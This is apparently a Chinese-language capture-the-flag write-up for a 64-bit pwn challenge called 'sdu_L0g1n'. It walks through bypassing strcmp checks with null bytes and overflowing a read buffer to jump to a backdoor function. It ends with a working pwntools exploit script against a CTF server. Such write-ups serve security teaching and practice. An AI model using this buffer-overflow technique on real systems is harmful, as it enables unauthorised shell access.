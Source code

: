 # sdu_L0g1n

同样先checksec一下:
![](./sdu1.png.png)

同样是64位且未开启栈保护
拖进IDA分析程序
![](./sdu2.png)


发现有两次strcmp检测，我们需要绕过strcmp检测
可以通过后面加`\x00`的方法绕过
找到后门函数：
![](./sdu3.png)

观察程序结构，我们可以考虑从main函数通过read的栈溢出溢出到后门函数的位置，这样就可以劫持后门函数获取shell权限
经过反复调试，exp为

```python
from pwn import *
 
r = remote("10.102.32.142", 26613)
offset = 0x40
 
r.sendline('SDUpwner\x00')
payload = b'N1nEmAN is C.o0O0OOOOL!\x00'+b'a'*offset +p64(0x4006C6)
r.sendline(payload)
r.interactive()
```

![](./sdu4.png)
![](./sdu5.png)

